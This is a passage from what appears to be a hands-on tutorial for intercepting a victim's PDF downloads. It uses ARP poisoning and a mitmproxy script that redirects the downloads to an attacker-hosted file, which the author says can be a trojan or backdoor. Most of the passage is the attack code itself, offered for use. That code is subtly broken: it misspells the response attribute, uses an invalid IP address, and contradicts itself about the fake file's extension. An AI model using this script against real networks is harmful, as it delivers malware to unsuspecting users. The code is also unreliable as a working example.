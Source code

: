 4. So we will intercept the request and create our own response while ARP poisoning one way. We will code the request method in a way that will be able to differentiate the request flow which contains the downloaded file from all the other request flows. Hence, we can avoid creating responses for each request flow and only create a specific response to the flow which contains the downloaded file. In order to this, we will modify our code to make it print only the URL which contains the .pdf extension since we are targeting pdf download request files.
```python
import mitmproxy

def request(flow):
    #code to handle request flows
    if flow.request.pretty_url.endswith(".pdf"):
        print("[+] Got an intriguing flow")
        print(flow)
```
Note: here we print out the pretty_url of the request property of the flow object. The pretty_url will filter out all the request URL's and since we are tageting .pdf files, we can include a conditional if statement as shown above. If client downloads a .pdf file, the print statement should get executed on your terminal in grey colored text.

5. Next, we will generate custom HTTP responses. Our goal is to generate our own response so whenever the target client sends a request that ends with a .pdf we want to be able to generate a response that will get the client to download a fake file. Here, we can serve the client a trojan, a backdoor or rather any file that you want. We will use a method from MITMproxy library to accomplish this.
```python
import mitmproxy

def request(flow):
    #code to handle request flows
    if flow.request.pretty_url.endswith(".pdf"):
        print("[+] Got an intriguing flow")
        flow.reponse = mitmproxy.http.HTTPResponse.make(301, "", {"Location":"http://10.15.262.5/file.zip"})
```
Note: the make method takes 3 arguments, the first argument is http status code, second is content, and third is headers. Here, we use status code 301 which is "moved permanently", refer this [link](https://en.wikipedia.org/wiki/HTTP_301) for more info. I set the header name to the location of the fake file. Here, in order to replace the target file response with the fake file response, I provide a direct URL to the fake file and it is stored in my own web server. If you notice we did not modify the second parameter (content) because we are redirecting the user to a different location.

6. Next, we will add another additional condition to the if statement to prevent the code from going into a infinite loop due to the .pdf extension. Since our fake file ends with .pdf as well. so replace the if statement as shown below.
```python
import mitmproxy

def request(flow):
    #code to handle request flows
    if flow.request.host != "10.15.262.5" and flow.request.pretty_url.endswith(".pdf"):
        print("[+] Got an intriguing flow")
        flow.reponse = mitmproxy.http.HTTPResponse.make(301, "", {"Location":"http://10.15.262.5/file.zip"})
```
Note: here the host is the IP address or domain name of where my web server is hosted.
